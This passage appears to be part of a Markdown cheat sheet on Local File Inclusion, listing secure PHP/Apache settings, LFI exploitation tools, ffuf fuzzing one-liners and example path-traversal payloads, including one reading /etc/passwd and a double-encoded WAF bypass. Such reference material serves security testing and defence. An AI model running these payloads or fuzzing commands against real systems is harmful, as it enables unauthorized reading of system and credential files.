 ### Secure Configurations

```
# PHP settings
allow_url_fopen = Off
allow_url_include = Off

# Apache settings
<Directory />
    Options -Indexes
    AllowOverride None
</Directory>
```

## Tools for Detecting and Exploiting LFI

### Automated Tools

1. **LFISuite**: https://github.com/D35m0nd142/LFISuite
2. **LFImap**: https://github.com/hansmach1ne/LFImap
3. **liffy**: https://github.com/mzfr/liffy
4. **kadimus**: https://github.com/P0cL4bs/kadimus
5. **ffuf**: https://github.com/ffuf/ffuf (For fuzzing potentially vulnerable parameters)
6. **Burp Suite** - Intruder with path traversal payloads

### One-liner Scripts

```bash
# Enumerate potential LFI parameters
ffuf -w /path/to/params.txt -u "http://target.com/index.php?FUZZ=value" -fs 4242

# Test for LFI vulnerability
ffuf -w /path/to/traversal.txt -u "http://target.com/index.php?page=FUZZ" -fs 4242

# Fuzz both parameter and traversal path
ffuf -w /path/to/params.txt:PARAM -w /path/to/traversal.txt:TRAVERSE -u "http://target.com/index.php?PARAM=TRAVERSE" -fs 4242
```

## Real-World Examples

### Example 1: Simple LFI

```
http://vulnerable.com/index.php?page=../../../etc/passwd
```

### Example 2: WAF Bypass with Encoding

```
http://vulnerable.com/index.php?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
